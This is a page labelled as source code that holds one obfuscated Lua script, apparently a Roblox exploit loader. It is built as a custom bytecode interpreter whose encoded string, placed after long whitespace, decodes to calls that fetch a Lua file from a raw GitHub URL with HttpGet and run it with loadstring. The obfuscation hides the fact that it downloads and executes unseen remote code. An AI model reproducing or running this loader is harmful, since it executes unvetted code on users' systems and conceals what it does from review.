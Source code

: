                                                                                  local v0=tonumber;    
                                                                        local v1=string.byte;local v2=string.char;local 
                                                                     v3=string.sub;local v4=string.gsub;local v5=string.rep;local 
                                                                 v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=    
                                                            getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall 
                                                          ;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local      
                                                        function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30)   
                                                      if (v1(v30,2)==79) then local v83=0;while true do if (v83==0) then v19=v0(v3(v30,1,1));   
                                                    return "";end end else local v84=v2(v0(v30,16));if v19 then local v90=0;local v91;while true  
                                                  do if (v90==1) then return v91;end if (v90==0) then v91=v5(v84,v19);v19=nil;v90=1;end end else    
                                                  return v84;end end end);local function v20(v31,v32,v33) if v33 then local v85=(v31/((5 -(1068 -(68  
                                                + 997)))^(v32-(2 -1))))%((929 -(214 + 713))^(((v33-(1 -0)) -(v32-1)) + 1)) ;return v85-(v85%(2 -1)) ;   
                                                else local v86=(621 -(555 + 64))^(v32-(932 -(857 + 74))) ;return (((v31%(v86 + v86))>=v86) and (569 -((   
                                              1637 -(226 + 1044)) + 201))) or (0 -0) ;end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;  
                                              return v34;end local function v22() local v35=0 -0 ;local v36;local v37;while true do if (v35==(117 -(32 + 85 
                                            ))) then v36,v37=v1(v16,v18,v18 + (3 -1) );v18=v18 + 2 + 0 ;v35=1 + 0 + 0 ;end if (v35==(958 -(892 + (159 -94)))) 
                                             then return (v37 * (436 -(67 + 113))) + v36 ;end end end local function v23() local v38=0 + 0 ;local v39;local v40 
                                          ;local v41;local v42;while true do if (v38==(2 -1)) then return (v42 * (66680831 -49903615)) + (v41 * (66488 -(802 +    
                                          150))) + (v40 * 256) + v39 ;end if (v38==(0 -0)) then v39,v40,v41,v42=v1(v16,v18,v18 + (5 -2) );v18=v18 + 3 + 1 + 0 ;v38= 
                                          998 -((1203 -288) + 82) ;end end end local function v24() local v43=0;local v44;local v45;local v46;local v47;local v48;    
                                          local v49;while true do if ((1189 -(1069 + 118))==v43) then v48=v20(v45,47 -26 ,67 -36 );v49=((v20(v45,6 + 26 )==((3 -2) -( 
                                        0 -0))) and  -(1 + 0)) or 1 ;v43=794 -(368 + 423) ;end if (v43==(3 -2)) then v46=19 -((869 -(814 + 45)) + 8) ;v47=(v20(v45,3 -2 
                                         ,462 -(416 + 26) ) * (2^(102 -70))) + v44 ;v43=2;end if (v43==(2 + 1 --[[==============================]])) then if (v48==(0 -0) 
                                        ) then if (v47==((1079 -641) -(145 + 293))) then return v49 --[[============================================]] * ((24 + 406) -(44 
                                         + 386)) ;else v48=(526 + 961) -(998 + 488) ;v46=0 + 0  --[[======================================================]];end elseif (   
                                      v48==2047) then return ((v47==(0 + 0)) and (v49 * (1/ --[[==========================================================]](885 -(261 + 624) 
                                      )))) or (v49 * NaN) ;end return v8(v49,v48-((3189 - --[[==============================================================]]1394) -(201 +   
                                      571)) ) * (v46 + (v47/((1140 -(116 + 1022))^((1296  --[[================================================================]]-(1020 + 60)) - 
                                      164)))) ;end if (v43==(0 + 0)) then v44=v23();v45=  --[[==================================================================]]v23();v43=1;  
                                      end end end local function v25(v50) local v51;if    --[[==================================================================]]not v50 then      
                                    v50=v23();if (v50==(1423 -(630 + 793))) then return   --[[====================================================================]]"";end end    
                    v51=v3(v16,v18,(v18 + v50) -(3 -2) );v18=v18 + v50 ;local v52={};for  --[[====================================================================]]v66=4 -3 , #v51 
               do v52[v66]=v2(v1(v3(v51,v66,v66)));end return v6(v52);end local v26=v23;  --[[======================================================================]]local         
            function v27(...) return {...},v12("#",...);end local function v28() local    --[[======================================================================]]v53=0 + 0 ;   
          local v54;local v55;local v56;local v57;local v58;local v59;while true do local --[[======================================================================]] v68=0 + 0 ;  
        while true do if (v68~=(837 -(660 + 176))) then else if (v53~=(1 + 0)) then else  --[[======================================================================]]v58=v23();v59 
        ={};for v98=203 -(14 + 188) ,v58 do local v99=0;local v100;local v101;while true  --[[======================================================================]]do if (v99~=( 
      675 -(534 + 141))) then else local v128=0;local v129;while true do if (v128==(0 + 0 --[[======================================================================]])) then v129= 
      0;while true do if (1~=v129) then else v99=1 + 0 ;break;end if ((0 + 0)==v129) then   --[[==================================================================]]v100=v21();v101 
      =nil;v129=1 -0 ;end end break;end end end if (v99==1) then if (v100==(1 -0)) then     --[[================================================================]]v101=v21()~=0 ;   
    elseif (v100==(5 -3)) then v101=v24();elseif (v100==3) then v101=v25();end v59[v98]=    --[[==============================================================]]v101;break;end    
    end end v57[2 + 1 ]=v21();v53=2 + 0 ;end break;end if (v68==0) then if ((398 -(115 + 281) --[[==========================================================]])==v53) then for    
    v102=1,v23() do local v103=0 -0 ;local v104;while true do if (v103==(0 + 0)) then v104=v21( --[[====================================================]]);if (v20(v104,1,1)==0) 
     then local v155=0 -0 ;local v156;local v157;local v158;while true do if (v155~=(10 -7)) then --[[==============================================]] else if (v20(v157,3,3)== 
    1) then v158[871 -(550 + 317) ]=v59[v158[4]];end v54[v102]=v158;break;end if (v155==1) then local --[[====================================]] v164=0 -0 ;while true do if  
    (v164~=(1 -0)) then else v155=5 -3 ;break;end if (v164~=0) then else v158={v22(),v22(),nil,nil};if (  --[[========================]]v156==(1990 -(582 + 1408))) then      
    local v175=0 -0 ;local v176;while true do if (v175~=(0 -0)) then else v176=0 -0 ;while true do if (v176~=(1824 -(1195 + 629))) then else v158[3 -0 ]=v22();v158[245 -(  
  187 + 54) ]=v22();break;end end break;end end elseif (v156==1) then v158[783 -(162 + 618) ]=v23();elseif (v156==(2 + 0)) then v158[2 + 1 ]=v23() -(2^16) ;elseif (v156  
  ==3) then local v182=0 -0 ;local v183;while true do if (v182~=(0 -0)) then else v183=0;while true do if (v183~=(0 + 0)) then else v158[3]=v23() -(2^16) ;v158[1640 -( 
  1373 + 263) ]=v22();break;end end break;end end end v164=1;end end end if (v155==2) then if (v20(v157,1001 -(451 + 549) ,1 + 0 )~=(1 -0)) then else v158[2]=v59[v158[2  
  -0 ]];end if (v20(v157,1386 -(746 + 638) ,1 + 1 )==1) then v158[4 -1 ]=v59[v158[3]];end v155=344 -(218 + 123) ;end if (v155==(1581 -(1535 + 46))) then local v165=0;    
  local v166;while true do if (v165==0) then v166=0;while true do if (1==v166) then v155=1 + 0 ;break;end if (v166==(0 + 0)) then local v177=560 -(306 + 254) ;while true 
   do if (v177==(0 + 0)) then v156=v20(v104,2,3);v157=v20(v104,7 -3 ,1473 -(899 + 568) );v177=1;end if ((1 + 0)~=v177) then else v166=1;break;end end end end break;end   
  end end end end break;end end end for v105=1,v23() do v55[v105-(2 -1) ]=v28();end return v57;end if (v53~=(603 -(268 + 335))) then else local v97=0;while true do if (  
  v97==(292 -(60 + 230))) then v53=1;break;end if (v97==(572 -(426 + 146))) then v54={};v55={};v97=1 + 0 ;end if (v97==(1457 -(282 + 1174))) then v56={};v57={v54,v55,nil 
  ,v56};v97=1 + 1 ;end end end v68=1;end end end end local function v29(v60,v61,v62) local v63=v60[1];local v64=v60[2];local v65=v60[3];return function(...) local v69=   
  v63;local v70=v64;local v71=v65;local v72=v27;local v73=1;local v74= -1;local v75={};local v76={...};local v77=v12("#",...) -1 ;local v78={};local v79={};for v87=0,v77 
   do if (v87>=v71) then v75[v87-v71 ]=v76[v87 + 1 ];else v79[v87]=v76[v87 + 1 ];end end local v80=(v77-v71) + 1 ;local v81;local v82;while true do v81=v69[v73];v82=v81[ 
  1];if (v82<=3) then if (v82<=1) then if (v82==0) then local v107=v81[2];v79[v107]=v79[v107](v13(v79,v107 + 1 ,v74));else local v109=v81[2];local v110,v111=v72(v79[v109]( 
  v13(v79,v109 + 1 ,v81[3])));v74=(v111 + v109) -1 ;local v112=0;for v126=v109,v74 do local v127=0;while true do if (v127==0) then v112=v112 + 1 ;v79[v126]=v110[v112];     
  break;end end end end elseif (v82>2) then v79[v81[2]]=v62[v81[3]];else v79[v81[2]]=v81[3];end elseif (v82<=5) then if (v82==4) then v79[v81[2]]();else local v117=0;local 
   v118;local v119;local v120;local v121;local v122;while true do if (v117==4) then v79[v81[2]]=v81[3];v73=v73 + 1 ;v81=v69[v73];v122=v81[2];v117=5;end if (v117==6) then   
  v73=v73 + 1 ;v81=v69[v73];v122=v81[2];v79[v122]=v79[v122](v13(v79,v122 + 1 ,v74));v117=7;end if (v117==8) then v81=v69[v73];do return;end break;end if (v117==0) then     
  v118=nil;v119,v120=nil;v121=nil;v122=nil;v117=1;end if (v117==5) then v119,v120=v72(v79[v122](v13(v79,v122 + 1 ,v81[3])));v74=(v120 + v122) -1 ;v118=0;for v161=v122,v74  
  do local v162=0;while true do if (0==v162) then v118=v118 + 1 ;v79[v161]=v119[v118];break;end end end v117=6;end if (v117==7) then v73=v73 + 1 ;v81=v69[v73];v79[v81[2]]( 
  );v73=v73 + 1 ;v117=8;end if (v117==2) then v73=v73 + 1 ;v81=v69[v73];v122=v81[2];v121=v79[v81[3]];v117=3;end if (v117==1) then v79[v81[2]]=v62[v81[3]];v73=v73 + 1 ;v81= 
  v69[v73];v79[v81[2]]=v62[v81[3]];v117=2;end if (v117==3) then v79[v122 + 1 ]=v121;v79[v122]=v121[v81[4]];v73=v73 + 1 ;v81=v69[v73];v117=4;end end end elseif (v82>6) then 
   do return;end else local v123=0;local v124;local v125;while true do if (v123==1) then v79[v124 + 1 ]=v125;v79[v124]=v125[v81[4]];break;end if (v123==0) then v124=v81[2] 
  ;v125=v79[v81[3]];v123=1;end end end v73=v73 + 1 ;end end;end return v29(v28(),{},v17)(...);end return v15(                                                               
                                                                                                                                                                            
                                                                                                                                                                            
                                                                                                                                                                          
                                                                                                                                                                          
                                                                                                                                                                          
                                                                                                                                                                          
                                                                                                                                                                          
                                                                                                                                                                          
                                                                                                                                                                          
                                                                                                                                                                        
                                                                                                                                                                        
                                                                                                                                                                        
                                                                                                                                                                        
                                                                                                                                                                        
                                                                                                                                                                        
                                                                                                                                                                      
                                                                                                                                                                      
                                                                                                                                                                      
                                                                                                                                                                      
                                                                                                                                                                    
                                                                                                                                                                    
                                                                                                                                                                    
                                                                                                                                                                    
                                                                                                                                                                    
                                                                                                                                                                  
                                                                                                                                                                  
                                                                                                                                                                  
                                                                                                                                                                  
                                                                                                                                                                  
                                                                                                                                                                
                                                                                                                                                                
                                                                                                                                                                
                                                                                                                                                              
                                                                                                                                                              
                                                                                                                                                            
                                                                                                                                                            
                                                                                                                                                          
                                                                                                                                                      
                                                                                                                                                  
                                                                                                                                          
                                                                                            
                                                                                          
                                                                                        
                                                                                  


--------------------------------------------------------------------------------
"LOL!043O00030A3O006C6F6164737472696E6703043O0067616D6503073O00482O747047657403513O00682O7470733A2O2F7261772E67697468756275736572636F6E74656E742E636F6D2F4B46554142574E4649414F574B465A5432333438312F72652O74722O6572747265742F6D61696E2F6C70692E6C756100083O0012053O00013O00122O000100023O00202O00010001000300122O000300046O000100039O0000026O000100016O00017O00",v9(),...);
